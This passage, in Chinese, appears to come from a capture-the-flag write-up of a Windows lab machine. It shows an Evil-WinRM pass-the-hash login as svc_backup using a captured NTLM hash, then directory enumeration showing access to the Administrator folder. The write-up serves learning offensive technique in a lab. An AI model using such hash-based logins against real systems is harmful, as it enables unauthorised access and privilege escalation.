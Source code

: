 由于`svc_backup` 是`Remote Management Users`的一部分，我通过`Evil-WinRM`尝试收集散列来使用 PowerShell Remoting:

```
evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d' 
```

我可以登录。

![](img/3887659de0545985c1c30484fbe1e5c7.png)

然后我检查我是否已经可以访问 user.txt，看起来我可以。

![](img/60a5d1d9ad6bf19ff6762fdbcb6e9c79.png)

## svc_backup ->管理员

然后，我在 C:\users\目录下检查感兴趣的文件:

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> gci C:\users\ -recurse -force -depth 3
```

有趣的是，我可以访问`C:\Users\Administrator`下的文件夹:
